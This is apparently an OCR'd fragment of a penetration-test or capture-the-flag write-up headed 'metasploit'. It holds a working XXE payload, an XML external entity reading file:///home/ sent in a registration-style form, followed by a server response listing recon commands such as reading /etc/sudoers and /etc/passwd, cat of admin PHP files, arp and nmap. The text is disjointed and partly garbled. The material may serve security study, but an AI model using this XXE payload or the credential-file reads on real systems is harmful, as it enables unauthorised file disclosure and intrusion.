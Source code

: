 6. metasploit

ss
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [

                      <!ELEMENT root ANY>

<!ENTITY xxe SYSTEM "file:///home/" >]>

<root><name>&xxe;</name><tel>11111111</tel><email>a@a.com</email><password>b</password></root>
```

```
HTTP/1.1 200 OK
Date: Thu, 08 Dec 2022 08:51:36 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 4546
Connection: close
Content-Type: text/html; charset=UTF-8

Scientist cat /etc/sudoers
sudo cat /etc/sudoers
cat /etc/passwd | grep webadmin
cat /var/www/html/Nuclear-Administrator.php
cat /var/www/Remote-Administration.php
whoami
ls
arp -a
cd mail
ls
cat text.sh 
ls
nmap
ping google.com
cd ..
ls
pwd
cd Documents/
ls
cd ../Desktop/
ls
exit
ls
ls -al
systeminfo | findstr domain
systeminfo | findstr Domain
i
ifconfig
cd Public
ls 
ls -al
cd
cd Documents/
ls -al
cd Desktop
cd ..
whoami
systeminfo
uname  -n
uname -v
apt install namp
apt install nmap
```